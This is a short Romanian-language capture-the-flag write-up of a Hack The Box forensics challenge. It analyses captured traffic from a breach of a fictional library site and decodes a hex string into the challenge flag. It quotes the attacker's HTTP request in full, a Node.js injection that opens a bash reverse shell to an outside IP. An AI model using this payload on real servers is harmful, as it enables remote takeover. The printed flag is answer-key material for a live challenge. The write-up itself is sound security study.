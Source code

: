 Sarcina:
```
On the haunting night of Halloween, the website of "Shadowbrook Library"—a digital vault of forbidden and arcane manuscripts—was silently breached by an unknown entity.
Though the site appears unaltered, unsettling anomalies suggest something sinister has been stolen from its cryptic depths.
Ominous network traffic logs from the time of the intrusion have emerged. Your task is to delve into this data and uncover any dark secrets that were exfiltrated.
```

În sarcina dată avem captura traficului de rețea unde avem trafic de tipul `HTTP` și `TCP`. Să analizăm traficul:

![alt text](../image/FM_1.png)

Avem acest request care de fapt este un `Revers Shell` care lucreaza pe `TCP`
```
http://shadowbrook.htb/?user=exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```
În felul dat arată query dacă nu este codat în `URL`.
Verificam traficul `TCP`:

![alt text](../image/FM_2.png)

`4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d`

Flagul nostru este întrun format hex:
După decriptarea acestui avem flagul: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`